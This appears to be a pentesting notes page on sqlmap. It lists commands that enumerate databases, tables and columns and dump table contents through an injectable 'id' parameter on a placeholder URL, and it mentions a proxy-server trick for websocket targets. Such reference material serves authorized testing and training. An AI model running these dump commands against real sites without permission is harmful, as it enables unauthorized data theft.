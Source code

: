 import Gist from 'react-gist';

# sqlmap

<p align="center">
    <img src={require("./assets/sqlmap.png").default}></img>
</p>

Use `-u` to define the target url and `--batch` to use the default behavior without asking for input.

In the next commands, `id` is a query parameter that is vulnerable to SQL injection.

Enumerate databases.

```sh
sqlmap -u "http://website.com/?id=1" --batch --dbs
```

Enumerate tables of a specific database.

```sh
sqlmap -u "http://website.com/?id=1" --batch --tables -D db_name
```

Enumerate tables content of a specific database.

```sh
sqlmap -u "http://website.com/?id=1" --batch --dump -D db_name
```

Enumerate content by specifing table, column, and database.

```sh
sqlmap -u "http://website.com/?id=1" --batch --dump -D db_name -T table_name -C col_name
```

## Extras

### Using sqlmap with websockets

sqlmap may not support all types of requests, including those made over websockets. Also, working with complex targets can sometimes be cumbersome using sqlmap alone.

To simplify the process, it is possible to set up a fake server as an intermediary. In this way, sqlmap would make a request to the fake server using a common format, and the fake server would then make the more complex request to the actual target.

<p align="center">
    <img src={require("./assets/sqlmap_over_websockets.png").default}></img>
</p>

<Gist id="4adec402e51df2bf3e35066172abaebf" />
